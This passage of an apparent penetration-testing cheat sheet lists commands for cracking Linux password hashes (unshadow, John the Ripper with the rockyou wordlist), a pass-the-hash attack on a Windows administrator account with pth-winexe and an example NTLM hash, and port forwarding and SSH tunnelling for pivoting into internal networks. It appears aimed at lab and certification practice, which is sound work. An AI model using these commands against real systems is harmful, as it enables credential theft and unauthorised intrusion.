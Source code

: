     -   Sample Hashes  
        [*http://openwall.info/wiki/john/sample-hashes*](http://openwall.info/wiki/john/sample-hashes)

    -   Identify Hashes  
        hash-identifier

    -   Crask linux hashes you must first unshadow them:  
        unshadow passwd-file.txt shadow-file.txt  
        unshadow passwd-file.txt shadow-file.txt &gt; unshadowed.txt

-   John the Ripper - Password Hash Cracking

    -   john $ip.pwdump

    -   john --wordlist=/usr/share/wordlists/rockyou.txt hashes

    -   john --rules --wordlist=/usr/share/wordlists/rockyou.txt

    -   john --rules --wordlist=/usr/share/wordlists/rockyou.txt
        unshadowed.txt

    -   JTR forced descrypt cracking with wordlist  
        john --format=descrypt --wordlist  
        /usr/share/wordlists/rockyou.txt hash.txt

    -   JTR forced descrypt brute force cracking  
        john --format=descrypt hash --show

-   Passing the Hash in Windows

    -   Use Metasploit to exploit one of the SMB servers in the labs.
        Dump the password hashes and attempt a pass-the-hash attack
        against another system:  
          
        export
        SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896  
          
        pth-winexe -U administrator //$ip cmd

<span id="_6nmbgmpltwon" class="anchor"><span id="_Toc480741823" class="anchor"></span></span>Networking, Pivoting and Tunneling
================================================================================================================================

-   Port Forwarding - accept traffic on a given IP address and port and
    redirect it to a different IP address and port

    -   apt-get install rinetd

    -   cat /etc/rinetd.conf  
        \# bindadress bindport connectaddress connectport  
        w.x.y.z 53 a.b.c.d 80

-   SSH Local Port Forwarding: supports bi-directional communication
    channels

    -   ssh &lt;gateway&gt; -L &lt;local port to listen&gt;:&lt;remote
        host&gt;:&lt;remote port&gt;

-   SSH Remote Port Forwarding: Suitable for popping a remote shell on
    an internal non routable network
